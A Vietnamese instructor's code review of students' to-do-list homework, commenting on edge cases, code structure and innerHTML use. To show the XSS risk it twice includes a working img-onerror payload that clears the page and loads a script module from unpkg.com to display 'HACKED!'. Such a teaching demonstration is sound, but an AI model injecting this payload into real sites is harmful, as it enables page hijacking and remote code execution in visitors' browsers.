 # Quân review bài học viên lớp K1-Fullstack

## [Nguyễn Quang Cường](https://github.com/cuonggold2408/Fullxinach_K3/tree/main/Day_24)

- [x] [Bài 1]

  Bài làm rất tốt\*

  Thẻ input khi chỉnh sửa nên thay đổi `placeholder` ví dụ như là `Edit Task` thì sẽ hợp lý hơn.

  Đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```html
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- [x] Đánh giá chung bài tập về nhà: Bài tập làm rất tốt.

---

## [Phí Văn Đức](https://github.com/PhiVanDuc/Offline-F8-K3/tree/main/Day-24-JS)

- [x] [Bài 1]

  Bài làm tốt\*

  Bài làm chưa xử lý case nhập toàn khoảng trắng.

  Bài làm chưa xử lý case khi nhấn vào task để hoàn thành task thì khi nhấn sửa và update task vẫn phải trong trạng thái hoàn thành trước đó nhưng hiện tại ở bài làm khi sửa lại thì task lại quay về trạng thái chưa hoàn thành.

  Khi cập nhật task nếu người dùng xóa hết nội dung và submit không nên hiện là `undefined` mà cần thông báo cho người dùng cần nhập nội dung mới cho update vì nếu mục đích muốn xóa task thì user sẽ nhấn vào icon xóa để xóa chứ không để trống nội dung task.

  Nên tách riêng ra từng function ở ngoài thực hiện từng chức năng riêng biệt giúp cho code dễ hiểu và dễ sửa đổi hơn sau này.

  Đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```html
  "/><img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- [x] Đánh giá chung bài tập về nhà: Bài tập làm tốt, tuy nhiên chưa xét hết tất cả các case.

---

## [Đỗ Văn Khoa](https://mrkhoadev.github.io/F8-Fullstack-K3/)

- [x] [Bài 1]

  Bài làm tốt\*

  Bài làm chưa xử lý case khi nhấn vào task để hoàn thành task thì khi nhấn sửa và update task vẫn phải trong trạng thái hoàn thành trước đó nhưng hiện tại ở bài làm khi sửa lại thì task lại quay về trạng thái chưa hoàn thành.

  Khi cập nhật task nếu người dùng xóa hết nội dung và submit không nên hiện task trống mà cần thông báo cho người dùng cần nhập nội dung mới cho update vì nếu mục đích muốn xóa task thì user sẽ nhấn vào icon xóa để xóa chứ không để trống nội dung task.

- [x] Đánh giá chung bài tập về nhà: Bài tập làm tốt, tuy nhiên còn một số case chưa hoàn thiện tốt.

---
